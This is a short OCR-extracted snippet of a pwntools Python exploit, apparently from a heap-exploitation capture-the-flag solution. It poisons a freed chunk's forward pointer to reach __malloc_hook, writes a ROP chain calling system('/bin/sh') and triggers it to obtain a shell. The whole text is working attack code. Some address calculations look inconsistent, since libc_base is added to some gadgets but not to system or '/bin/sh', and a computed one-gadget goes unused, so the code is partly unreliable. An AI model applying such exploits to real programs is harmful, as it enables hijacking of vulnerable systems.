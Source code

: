 ```python=
#overwrite fd to malloc_hook
payload2 = b""
payload2 += p64(0)*13
payload2 += p64(0x71)
payload2 += p64(0)*13
payload2 += p64(0x71)
payload2 += p64(malloc_hook_write)
fill(6,payload2)

one_gad = 0x3f42a+libc_base

pop_rsp = p64(0x0000000000003838+libc_base)# : pop rsp ; ret)
pop_rdi = p64(0x0000000000020e22+libc_base) #: pop rdi ; ret
bin_sh = p64(next(libc.search(b"/bin/sh")))
system = p64(libc.symbols['system'])

rop_chain = pop_rsp
rop_chain += p64(malloc_hook+8)
rop_chain += pop_rdi
rop_chain += bin_sh
rop_chain += system

allocate(0x60) 
allocate(0x60) 
payload3 = b""
payload3 += b"A"*19
payload3 += rop_chain
fill(8,payload3)
allocate(1)
io.interactive()
```


